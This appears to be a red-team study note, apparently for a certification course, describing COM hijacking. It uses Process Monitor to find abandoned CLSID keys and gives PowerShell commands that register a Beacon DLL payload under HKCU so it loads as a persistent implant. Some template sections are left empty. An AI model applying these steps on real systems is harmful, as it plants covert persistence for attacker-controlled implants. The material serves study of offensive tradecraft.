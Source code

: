 
Check [[COM Objects]] for theory.
Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).
[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives.


## 🖊️ via Process Monitor

1) Start processmonitor.exe
2) Search for events with the following filters:

- _RegOpenKey_ operations.
- where the Result is _NAME NOT FOUND_.
- and the Path ends with _InprocServer32_.
![[procmon-filter.png]]
3) Let it run for about a minute. One aspect to look out for is the number of times a particular CLSID is loaded. If you hijack one that is loaded every couple of seconds, you're going to have a rough time - so it's well worth the additional effort to find one that's loaded semi-frequently but not so much so or loaded when a commonly used application (Word, Excel, Outlook, etc) is opened.
4) Once you pick up an CLSID, check if it exists in HKCU and HKCM:

`Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"`

`Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"`

6) To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.  Because this is still on our attacking machine, we'll point it straight at `C:\Payloads\http_x64.dll`.
```
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
PS C:\Users\Attacker> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

If this was the victim machine, you have to drop the dll in the box. When the dll loads, you should get a beacon. 

## 📔 Description

- 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 14:58
🏷️ tags: #redteam #crto 

---

